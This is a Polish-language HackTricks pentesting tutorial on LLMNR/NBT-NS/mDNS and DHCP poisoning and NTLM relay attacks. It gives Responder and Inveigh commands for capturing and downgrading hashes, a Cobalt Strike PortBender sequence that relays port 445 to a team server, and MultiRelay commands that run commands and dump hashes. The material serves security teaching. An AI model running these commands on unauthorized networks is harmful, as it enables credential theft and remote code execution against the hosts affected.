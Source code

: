# Podróba LLMNR, NBT-NS, mDNS/DNS oraz ataki WPAD i przekazywanie

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
{% endhint %}

## Protokoły sieciowe

### Protokoły rozwiązywania lokalnych nazw hostów
- **LLMNR, NBT-NS i mDNS**:
- Microsoft oraz inne systemy operacyjne używają LLMNR i NBT-NS do lokalnego rozwiązywania nazw, gdy DNS zawodzi. Podobnie systemy Apple i Linux używają mDNS.
- Te protokoły są podatne na przechwycenie i podrobienie ze względu na swoją nieuwierzytelnioną, rozgłoszeniową naturę nad UDP.
- [Responder](https://github.com/lgandx/Responder) może być używany do podszywania się pod usługi poprzez wysyłanie sfałszowanych odpowiedzi do hostów zapytujących te protokoły.
- Więcej informacji na temat podszywania się pod usługi za pomocą Responder można znaleźć [tutaj](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protokół automatycznego odkrywania serwera proxy (WPAD)
- WPAD pozwala przeglądarkom automatycznie odkrywać ustawienia serwera proxy.
- Odkrywanie jest ułatwione poprzez DHCP, DNS lub w razie awarii DNS, poprzez LLMNR i NBT-NS.
- Responder może automatyzować ataki WPAD, kierując klientów do złośliwych serwerów WPAD.

### Responder do zatrucia protokołów
- **Responder** to narzędzie używane do zatruwania zapytań LLMNR, NBT-NS i mDNS, selektywnie odpowiadając na podstawie typów zapytań, głównie kierując się w stronę usług SMB.
- Jest preinstalowany w Kali Linux, konfigurowalny pod ścieżką `/etc/responder/Responder.conf`.
- Responder wyświetla przechwycone hashe na ekranie i zapisuje je w katalogu `/usr/share/responder/logs`.
- Obsługuje zarówno IPv4, jak i IPv6.
- Windowsowa wersja Respondera jest dostępna [tutaj](https://github.com/lgandx/Responder-Windows).

#### Uruchamianie Respondera
- Aby uruchomić Respondera z domyślnymi ustawieniami: `responder -I <Interfejs>`
- Dla bardziej agresywnego sondowania (z potencjalnymi skutkami ubocznymi): `responder -I <Interfejs> -P -r -v`
- Techniki przechwytywania wyzwań/odpowiedzi NTLMv1 dla łatwiejszego łamania: `responder -I <Interfejs> --lm --disable-ess`
- Podszywanie się pod WPAD można aktywować za pomocą: `responder -I <Interfejs> --wpad`
- Zapytania NetBIOS mogą być rozwiązane do IP atakującego, a proxy autoryzacji może być ustawione: `responder.py -I <interfejs> -Pv`

### Zatrucie DHCP za pomocą Respondera
- Podszywanie się pod odpowiedzi DHCP może trwale zatruć informacje o trasowaniu ofiary, oferując bardziej skrytą alternatywę dla podszywania ARP.
- Wymaga precyzyjnej wiedzy o konfiguracji sieci docelowej.
- Uruchomienie ataku: `./Responder.py -I eth0 -Pdv`
- Ta metoda może skutecznie przechwytywać hashe NTLMv1/2, ale wymaga ostrożnego postępowania, aby uniknąć zakłóceń w sieci.

### Przechwytywanie poświadczeń za pomocą Respondera
- Responder będzie podszywał się pod usługi za pomocą wspomnianych powyżej protokołów, przechwytując poświadczenia (zwykle wyzwanie/odpowiedź NTLMv2), gdy użytkownik próbuje uwierzytelnić się wobec podszytych usług.
- Można próbować zdegradować do NetNTLMv1 lub wyłączyć ESS dla ułatwienia łamania poświadczeń.

Należy pamiętać, że stosowanie tych technik powinno odbywać się legalnie i etycznie, zapewniając odpowiednie upoważnienie i unikając zakłóceń lub nieautoryzowanego dostępu.

## Inveigh

Inveigh to narzędzie dla testerów penetracyjnych i zespołów czerwonych, przeznaczone dla systemów Windows. Oferuje funkcjonalności podobne do Responder, wykonując ataki podszywania i man-in-the-middle. Narzędzie ewoluowało z skryptu PowerShell do binarnej wersji C#, z [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) jako główne wersje. Szczegółowe parametry i instrukcje można znaleźć w [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh można obsługiwać za pomocą PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Lub wykonany jako plik binarny C#:
```bash
Inveigh.exe
```
### Atak przekazywania NTLM

Ten atak wykorzystuje sesje uwierzytelniania SMB do uzyskania dostępu do docelowego komputera, co umożliwia uzyskanie powłoki systemowej w przypadku powodzenia. Kluczowe wymagania to:
- Uwierzytelniony użytkownik musi mieć dostęp do lokalnego administratora na hostingu przekazywanym.
- Podpisywanie SMB powinno być wyłączone.

#### Przekierowywanie i tunelowanie portu 445

W przypadkach, gdy bezpośrednie wprowadzenie sieciowe nie jest wykonalne, ruch na porcie 445 musi być przekierowany i przepuszczony przez tunel. Narzędzia takie jak [**PortBender**](https://github.com/praetorian-inc/PortBender) pomagają w przekierowywaniu ruchu portu 445 na inny port, co jest istotne, gdy dostęp do lokalnego administratora jest dostępny do ładowania sterownika.

Konfiguracja i działanie PortBender w Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Inne narzędzia do ataku przekazywania NTLM

- **Metasploit**: Skonfiguruj z proxy, lokalnymi i zdalnymi szczegółami hosta.
- **smbrelayx**: Skrypt Pythona do przekazywania sesji SMB i wykonywania poleceń lub implementowania tylnych drzwi.
- **MultiRelay**: Narzędzie z pakietu Responder do przekazywania określonych użytkowników lub wszystkich użytkowników, wykonywania poleceń lub wyciągania haseł.

Każde narzędzie można skonfigurować do działania poprzez proxy SOCKS, jeśli jest to konieczne, umożliwiając ataki nawet przy pośrednim dostępie do sieci.

### Działanie MultiRelay

MultiRelay jest uruchamiany z katalogu _**/usr/share/responder/tools**_, docelowo określając konkretne adresy IP lub użytkowników.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Wymuszaj logowania NTLM

W systemie Windows **możesz być w stanie zmusić niektóre uprzywilejowane konta do uwierzytelniania się na dowolnych maszynach**. Przeczytaj następującą stronę, aby dowiedzieć się jak:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Odnośniki
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plan subskrypcyjny**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
